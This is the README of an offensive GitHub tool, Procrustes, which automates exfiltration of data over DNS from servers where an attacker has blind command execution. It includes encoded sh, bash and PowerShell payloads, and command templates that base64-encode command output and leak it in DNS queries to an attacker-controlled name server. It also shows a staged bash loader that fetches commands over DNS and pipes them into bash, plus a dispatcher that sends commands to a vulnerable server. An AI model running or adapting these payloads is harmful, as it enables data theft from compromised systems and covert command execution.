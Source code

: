 # Procrustes

A bash script that automates the exfiltration of data over dns in case we have a blind command execution on a server where all outbound connections except DNS are blocked. The script currently supports sh, bash and powershell and is compatible with exec style command execution (e.g. java.lang.Runtime.exec).

Unstaged:
<p align="center">
  <img src="images/op.gif"/>
</p>

Staged:
<p align="center">
  <img src="images/staged.gif"/>
</p>

For its operations, the script takes as input the command we want to run on the target server and transforms it according to the target shell in order to allow its output to be exfiltrated over DNS. After the command is transformed, it's fed to the "dispatcher". The dispatcher is a program provided by the user and is responsible for taking as input a command and have it executed on the target server by any means necessary (e.g. exploiting a vulnerability). After the command is executed on the target server, it is expected to trigger DNS requests to our DNS name server containing chunks of our data. The script listens for those requests until the output of the user provided command is fully exfiltrated.

Below are the supported command transformations, generated for the exfiltration of the command: `ls`

sh:
```bash
sh -c $@|base64${IFS}-d|sh . echo IGRpZyBAMCArdHJpZXM9NSBgKGxzKXxiYXNlNjQgLXcwfHdjIC1jYC5sZW4xNjAzNTQxMTc4LndoYXRldi5lcgo=
```

bash:
```bash
bash -c {echo,IG5zbG9va3VwIGAobHMpfGJhc2U2NCAtdzB8d2MgLWNgLmxlbi4xNjAzMDMwNTYwLndoYXRldi5lcgo=}|{base64,-d}|bash
```

powershell:
```bash
powershell -enc UgBlAHMAbwBsAHYAZQAtAEQAbgBzAE4AYQBtAGUAIAAkACgAIgB7ADAAfQAuAHsAMQB9AC4AewAyAH0AIgAgAC0AZgAgACgAWwBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAoAGwAcwApACkAKQAuAGwAZQBuAGcAdABoACkALAAiAGwAZQBuACIALAAiADEANgAwADMAMAAzADAANAA4ADgALgB3AGgAYQB0AGUAdgAuAGUAcgAiACkACgA=
```

## Usage
1. Local testing for bash:
```bash
./procroustes_chunked.sh -h whatev.er -d "dig @0 +tries=5" -x dispatcher_examples/local_bash.sh -- 'ls -lha|grep secret' < <(stdbuf -oL tcpdump --immediate -l -i any udp port 53)
```

Contents of local_bash.sh:
> $@

2. Local testing for powershell with WSL2:
```bash
stdbuf -oL tcpdump --immediate -l -i any udp port 53|./procroustes_chunked.sh -w ps -h whatev.er -d "Resolve-DnsName -Server wsl2_IP -Name" -x dispatcher_examples/local_powershell_wsl2.sh -- 'gci | % {$_.Name}'
```

Contents of local_powershell_wsl2.sh:
> /mnt/c/Windows/System32/WindowsPowerShell/v1.0/powershell.exe ${@:1}

3. powershell example where we ssh into our NS to get the incoming DNS requests.
```bash
./procroustes_chunked.sh -w ps -h yourdns.ns -d "Resolve-DnsName" -x ./dispatcher.sh -- 'gci | % {$_.Name}' < <(stdbuf -oL ssh user@HOST 'sudo tcpdump --immediate -l udp port 53')
```

Contents of dispatcher.sh
> curl https://vulnerable_server --data-urlencode "cmd=${1}"

4. More information on the options
```bash
./procroustes_chunked.sh --help
```

### procroustes_chunked vs procroustes_full

In a nutshell, assuming we want to exfiltrate some data that has to be broken into four chunks in order to be able to be transmitted over DNS:
* procroustes_chunked: calls the dispatcher four times, each time requesting a different chunk from the server
* procroustes_full: calls the dispatcher once, the command that will get executed on the server will be responsible for chunking the data and sending them over.
* procroustes_full/staged: same as procroustes_full, but uses a stager to get the command used by procroustes_full to chunk the data

Some of their differences can also be illustrated through the template commands used for bash/powershell:

procroustes_chunked/bash:
```bash
%DNS_TRIGGER% `(%CMD%)|base64 -w0|cut -b$((%INDEX%+1))-$((%INDEX%+%COUNT%))'`.%UNIQUE_DNS_HOST%
```
procroustes_full/bash:
```bash
((%CMD%);printf '\n%SIGNATURE%')|base64 -w0|grep -Eo '.{1,%LABEL_SIZE%}'|xargs -n%NLABELS% echo|tr ' ' .|nl|awk '{printf "%s.%s%s\n",$2,$1,"%UNIQUE_DNS_HOST%"}'|xargs -P%THREADS% -n1 %DNS_TRIGGER%
```
procroustes_full/bash/staged:
```bash
while [[ ${a[*]} != "4 4 4 4" ]];do ((i++));printf %s "$c";IFS=. read -a a < <(dig +short $i.%UNIQUE_DNS_HOST%);c=$(printf "%02x " ${a[*]}|xxd -r -p);done|bash
```

---------------------------------------


|                       | procroustes_chunked                | procroustes_full  |  procroustes_full_staged  |
| -------------         |:-------------:               |:-----:         |:-----:         |
| payload size overhead (bash/powershell) [1] | 150\*NLABELS/500\*NLABELS (+CMD_LEN)          | 300/750 (+CMD_LEN)       |   250/❌  |
| dispatcher calls #     | #output/(LABEL_SIZE*NLABELS)[2] |   1👌          |                1    |
| speed (bash/powershell)[3]                | ✔/✔                         |  ✔/😔         | ✓/❌|

[1] For the staged version, the command is fetched through DNS, so the listed size is the total payload size

[2] On procroustes_chunked, the provided command gets executed multiple times on the server until all of its output is extracted. This behavior may cause problems in case that command is not idempotent (functionality or output-wise) or is time/resource intensive. 
A workaround to avoid running into issues for the aforementioned cases is to first store the command output into a file (e.g. /tmp/file) and then read that file.

[3] We can speed up the exfiltration process by having the NS properly responding to the requests received. This is especially usefull in the case of procroustes_full/powershell

### Todos
 - ~~we could achieve constant command length by sending initially a "stager" command, which will then get our full command through DNS responses.~~ (done for bash)
 - Add stagers for sh, powershell
 - procroustes_full/powershell command can use some parallelization:
 ```bash
[Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((%CMD%)+(echo "`n%SIGNATURE%"))) -split '(.{1,%CHUNK_SIZE%})'|?{$_}|%{$i+=1;%DNS_TRIGGER% $('{0}{1}{2}' -f ($_ -replace '(.{1,%LABEL_SIZE%})','$1.'),$i,'%UNIQUE_DNS_HOST%')}
```
PRs are welcome

### Credits
* [Collabfiltrator](https://github.com/0xC01DF00D/Collabfiltrator) - idea of chunking the data on the server. It also performs similar functionalities with this script, so check it out.
* [DNSlivery](https://github.com/no0be/DNSlivery) - modified version of DNSlivery is used as name server in the staged version